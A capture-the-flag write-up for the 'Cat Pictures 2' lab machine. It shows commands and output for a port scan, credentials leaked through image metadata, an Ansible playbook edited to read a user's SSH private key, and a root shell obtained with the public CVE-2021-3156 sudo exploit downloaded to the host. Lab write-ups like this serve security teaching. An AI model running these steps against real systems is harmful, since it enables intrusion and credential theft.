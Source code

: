 # Cat Pictures 2

## Port Scan
```
 kewl@h4x0r > ~/Desktop/leet/l > rustscan -a 10.10.158.237 -t 5000 -- -sV
...
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     syn-ack OpenSSH 9.0 (protocol 2.0)
1337/tcp open  waste?  syn-ack
3000/tcp open  ppp?    syn-ack
8080/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.6.9)
...
...
```

Lychee is hosted on port 80 , Gitea on port 3000 and OliveTin on port 1337

## Flag 1

head over to 10.10.158.237:80 and check the images. Description of the first images says "note to self: strip metadata". Download the image and run exfitool on it.

```
 kewl@h4x0r > ~/Desktop/leet/l > exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg | grep Title
Title                           : :8080/[REDACTED].txt
```

Now head over to 10.10.158.237:8080/[REDACTED].txt

```
 kewl@h4x0r > ~/Desktop/leet/l > curl http://10.10.158.237:8080/[REDACTED].txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: [REDACTED]

ansible runner (olivetin): port 1337
```

Lets use the password to log into samarium's Gitea account.
The user owns a private repo with the name "ansible"

![](1.png)

## Flag 2
Now lets check ansible runner (olivetin) at port 1337.
Click on "Run Ansible Playbook" and wait for it to finish, then check the logs<br>
![](2.png)

There is user named "bismuth". lets check if this user has a ssh key.<br>
Remember that we can edit playbook.yaml in ansible repo to execute the commands we want.
change "whoami" to "cat /home/bismuth/.ssh/id_rsa"
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: cat /home/bismuth/.ssh/id_rsa
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```
Head over to OliveTin and run ansible playbook.
![](3.png)<br>
Use the private key to log into bimuth's account using ssh
```bash
chmod 600 bismuth_key
ssh -i bismuth_key bismuth@10.10.158.237
```
```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
bismuth@catpictures-ii:~$ cat flag2.txt
[REDACTED]
```

## Flag 3
On running linpeas, I noticed that the sudo binary is outdated and we can get root by running the exploit for CVE-2021-3156<br>
![](4.png)<br>
The exploit can be found here : https://github.com/blasty/CVE-2021-3156<br>
Clone it onto your host machine and start SimpleHTTP server<br>
![](5.png)

Download the files onto the remote machine
```bash
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/brute.sh
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/hax.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/lib.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/Makefile
.
.
bismuth@catpictures-ii:~$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# cd /root
# ls
ansible  docker-compose.yaml  flag3.txt  gitea
# cat flag3.txt           
[REDACTED]
```